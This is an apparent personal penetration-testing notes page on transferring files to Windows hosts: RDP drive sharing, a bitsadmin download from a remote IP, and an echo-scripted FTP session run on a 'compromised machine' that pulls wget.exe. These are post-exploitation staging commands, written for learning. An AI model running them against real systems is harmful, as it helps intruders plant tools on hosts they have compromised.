

repository: gandhi-taha/security · page: transferring_files/transfering_files/index.html · generator: mkdocs

# Transferring Files to Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.



## To and from client to server SMB / RDP
If you are using RDP on windows you can just attach a directory to share from when you start your RDP session.

```
xfreerdp /u:MYUSERNAME /v:10.10.10.1111 /drive:fildel,/home/temp/tmp
```

Now you can simply open the Computer part in your Explorer window, and you should see the disk `fildel`. In that share you can share documents between your computer and the RDP server.


## From client to server SMB / RDP
A simple way is simply to to connect to your server with xfreerdp and then open up the fil-browser in your linux machine, and copy the file. Then go to your windows server and simply paste the file.
For me it only works in that direction, and not the reverse.

## From X server to Windows (Bitsadmin)

Downloading a file with CMD can be done with bitsadmin.


```
bitsadmin /transfer aaa http://192.168.66.87/apaa.txt c:\Users\temp\aaa.txt
```





## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.
